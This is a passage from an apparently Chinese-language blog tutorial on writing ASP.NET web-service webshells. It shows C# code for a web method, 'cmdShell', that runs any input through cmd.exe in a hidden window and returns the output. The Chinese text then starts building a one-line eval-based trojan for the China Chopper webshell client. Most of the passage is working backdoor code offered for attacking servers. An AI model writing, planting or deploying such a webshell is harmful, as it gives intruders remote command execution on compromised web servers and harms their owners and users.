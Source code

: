 ```
wickedly.Close();

return "Wickedly";

`}`

[WebMethod]

/**

Exec Command via cmdShell

**/

public string cmdShell(string input)

`{`

Process pr = new Process();

pr.StartInfo.FileName = "cmd.exe";

pr.StartInfo.RedirectStandardOutput = true;

pr.StartInfo.UseShellExecute = false;

pr.StartInfo.Arguments = "/c " + input;

pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;

pr.Start();

StreamReader osr = pr.StandardOutput;

String ocmd = osr.ReadToEnd();

osr.Close();

osr.Dispose();

return ocmd;

`}`
```

小马运行后执行CMD命令如下图

[![](https://p4.ssl.qhimg.com/t01ddd8278a09449c65.png)](https://p4.ssl.qhimg.com/t01ddd8278a09449c65.png)

知道原理后就开始着手打造菜刀可用的一句话木马，和一般处理程序类似通过Jscript.Net的eval方法去实现代码执行，根据之前的介绍WebMethod有多个属性并且根据微软的官方文档 [https://docs.microsoft.com/zh-cn/previous-versions/dotnet/netframework-1.1/1tyazy68%28v%3dvs.80%29](https://docs.microsoft.com/zh-cn/previous-versions/dotnet/netframework-1.1/1tyazy68%28v%3dvs.80%29) 可以得出Jscript.Net中可以使用 WebMethodAttribute 来替代[WebMethod]。
